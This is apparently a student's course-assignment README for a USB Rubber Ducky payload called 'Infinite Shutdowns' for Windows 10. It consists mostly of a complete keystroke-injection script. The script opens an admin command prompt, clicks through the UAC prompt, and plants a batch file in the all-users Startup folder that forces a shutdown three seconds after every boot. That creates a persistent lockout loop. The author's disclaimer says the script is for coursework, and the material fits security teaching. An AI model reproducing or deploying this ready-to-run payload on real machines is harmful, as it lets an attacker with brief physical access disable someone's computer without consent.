 # Infinite Shutdowns - Windows 10
## Hassan Chadad
## CS-683 USB Rubber Ducky Assignment

This ducky script is similar to the [Fork-Bomb](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---fork-bomb). But instead of having infinite processes, I will have infinite shutdowns in a way where whenever the PC starts it will force shutdown after 3 seconds.<br/>
Steps to write the script:
1. Open cmd as admin
2. Go to the startup Folder where all the files that run on startup are located
3. Create a new Batch script in the startup Folder
4. Code the Batch Script to do a force shutdown after 3 seconds without showing the command prompt window
5. Exit the Batch Script
6. Run the Batch Script
7. Close the cmd

**This script is tended to be for the course's assignment and I don't aim to use it harm or do any real attacks.**

```
REM ---------Open start Menu---------
CONTROL ESCAPE
DELAY 500
REM ---------Type cmd---------
STRING cmd 
DELAY 300
REM ---------Open cmd as admin---------
CTRL-SHIFT ENTER
DELAY 300
REM ---------Select Yes in the windows asking about running cmd as admin---------
LEFTARROW
DELAY 100
ENTER 
DELAY 1000
REM ---------Go To Startup Folder---------
STRING cd %ProgramData%\Microsoft\Windows\Start Menu\Programs\Startup\
ENTER
REM ---------Create a batch file in the startup folder to run it on startup of the PC---------
STRING copy con h.bat
ENTER
REM ---------Code the batch file to force shutdown after 3 seconds---------
STRING @echo off
ENTER
STRING shutdown.exe /f /s /t 3 
ENTER
REM ---------Exit the batch file---------
CONTROL z
ENTER
REM ---------Run the batch file---------
STRING h.bat
ENTER
REM ---------close cmd---------
ALT F4
```